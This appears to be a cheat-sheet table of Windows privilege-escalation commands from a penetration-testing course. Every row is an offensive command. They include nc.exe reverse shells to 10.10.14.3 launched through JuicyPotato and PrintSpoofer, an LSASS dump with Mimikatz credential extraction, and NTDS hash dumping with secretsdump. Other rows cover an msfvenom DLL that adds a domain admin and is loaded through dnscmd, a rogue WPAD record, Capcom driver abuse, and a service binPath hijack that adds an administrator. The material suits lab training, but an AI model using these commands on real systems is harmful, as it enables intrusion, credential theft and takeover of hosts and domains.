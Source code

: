 #### Handy Commands

| **Command** | **Description** |
| --------------|-------------------|
| `mssqlclient.py sql_dev@10.129.43.30 -windows-auth` | Connect using mssqlclient.py |
| `enable_xp_cmdshell`                            | Enable xp_cmdshell with mssqlclient.py |
| `xp_cmdshell whoami`                                 | Run OS commands with xp_cmdshell |
| `c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 443 -e cmd.exe" -t *` | Escalate privileges with JuicyPotato |
| `c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"` | Escalating privileges with PrintSpoofer |
| `procdump.exe -accepteula -ma lsass.exe lsass.dmp`           | Take memory dump with ProcDump |
| `sekurlsa::minidump lsass.dmp` and `sekurlsa::logonpasswords` | Use MimiKatz to extract credentials from LSASS memory dump |
| `dir /q C:\backups\wwwroot\web.config`                       | Checking ownership of a file |
| `takeown /f C:\backups\wwwroot\web.config`                   | Taking ownership of a file |
| `Get-ChildItem -Path ‘C:\backups\wwwroot\web.config’ \| select name,directory, @{Name=“Owner”;Expression={(Ge t-ACL $_.Fullname).Owner}}` | Confirming changed ownership of a file |
| `icacls “C:\backups\wwwroot\web.config” /grant htb-student:F` | Modifying a file ACL |
| `secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL` | Extract hashes with secretsdump.py |
| `robocopy /B E:\Windows\NTDS .\ntds ntds.dit` | Copy files with ROBOCOPY |
| `wevtutil qe Security /rd:true /f:text \| Select-String "/user"` | Searching security event logs |
| `wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 \| findstr "/user"` | Passing credentials to wevtutil |
| `Get-WinEvent -LogName security \| where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*' } \| Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}` | Searching event logs with PowerShell |
| `msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll` | Generate malicious DLL |
| `dnscmd.exe /config /serverlevelplugindll adduser.dll` | Loading a custom DLL with dnscmd |
| `wmic useraccount where name="netadm" get sid` | Finding a user's SID |
| `sc.exe sdshow DNS` | Checking permissions on DNS service |
| `sc stop dns` | Stopping a service |
| `sc start dns` | Starting a service |
| `reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters` | Querying a registry key |
| `reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll` | Deleting a registry key |
| `sc query dns` | Checking a service status |
| `Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local` | Disabling the global query block list |
| `Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3` | Adding a WPAD record |
| `cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp` | Compile with cl.exe |
| `reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"` | Add reference to a driver (1) |
| `reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1` | Add reference to a driver (2) |
| `.\DriverView.exe /stext drivers.txt` and `cat drivers.txt \| Select-String -pattern Capcom` | Check if driver is loaded |
| `EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys` | Using EopLoadDriver |
| `c:\Tools\PsService.exe security AppReadiness` | Checking service permissions with PsService |
| `sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"` | Modifying a service binary path |
| `REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA` | Confirming UAC is enabled |